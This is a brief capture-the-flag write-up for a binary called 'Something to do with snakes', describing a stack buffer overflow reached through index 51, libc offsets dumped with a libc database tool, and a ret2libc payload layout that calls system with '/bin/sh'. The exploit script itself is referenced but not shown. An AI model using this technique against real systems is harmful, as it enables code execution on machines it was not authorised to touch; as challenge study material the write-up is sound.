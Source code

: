 # Something to do with snakes:

## Protections:
* ASLR

## Binary notes:
* The program asks for an index as well as an input string.

## Exploit notes:
* An index of 51 causes the binary to copy up to 0x46 bytes to a destination
buffer lower in the stack that is only 0x20 bytes. As a result we have a buffer
overflow and we can overwrite the return address.

#### Libc:
* Add the given libc library into the libc database.
* Dump useful offsets with ./dump:
```c
    $ ./dump local-c1d3aa79808e71885c67b9763b5e52a96cc02d16
        offset___libc_start_main_ret = 0x18637
        offset_system = 0x0003a940
        offset_dup2 = 0x000d4b50
        offset_read = 0x000d4350
        offset_write = 0x000d43c0
        offset_str_bin_sh = 0x15902b
```
* Using the maps file, we can get the base address of libc which is 0xf7e19000.

## Writing the exploit:
* The final exploit looks like:
"51 " + ["a" * 48 + system() + "b" * 4 + addr of "/bin/sh"]

## Scripts used:
* See exploit.py
